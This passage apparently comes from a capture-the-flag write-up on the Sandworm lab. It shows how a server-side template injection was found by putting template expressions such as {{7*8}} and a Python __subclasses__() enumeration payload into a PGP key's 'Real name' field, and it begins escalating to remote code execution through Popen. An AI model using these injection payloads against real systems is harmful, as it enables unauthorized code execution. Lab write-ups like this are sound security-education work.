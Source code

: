 ```shell
-----END PGP SIGNATURE-----
```

To explore this further, we created a new pair of encryption keys and intentionally inserted a simple payload (`{ { 7*8 } }`) into the "Real name" parameter during the key generation process. We then proceeded to create a signed and encrypted message using this manipulated key.

![](/assets/images/writeups/sandworm/10.png)

When we examined the server response, we observed that the number `56` was highlighted, which corresponds to the result of the mathematical expression `7 * 8`. This confirmed the presence of an `SSTI` vulnerability on the website.

# ESCALATING SSTI TO RCE

To escalate **Server-Side Template Injection** (`SSTI`) to **Remote Code Execution** (`RCE`), we needed to take a few steps:

- **Identify Available Functions**: First, we identified available functions and methods in the application. This allowed us to find the `Popen` function, which is commonly used to run Linux commands. We noted that the index of the `Popen` function was `439` in the list of functions.

```shell
┌──(kali㉿kali)-[~/pgp-tinkering]
└─$ gpg --gen-key                                                    
gpg (GnuPG) 2.2.40; Copyright (C) 2022 g10 Code GmbH
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Note: Use "gpg --full-generate-key" for a full featured key generation dialog.

GnuPG needs to construct a user ID to identify your key.

Real name: { {''.__class__.__base__.__subclasses__()} }
Email address: curiosity@hacksfor.fun
You selected this USER-ID:
    "{ {''.__class__.__base__.__subclasses__()} } <curiosity@hacksfor.fun>"

Change (N)ame, (E)mail, or (O)kay/(Q)uit? O
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
```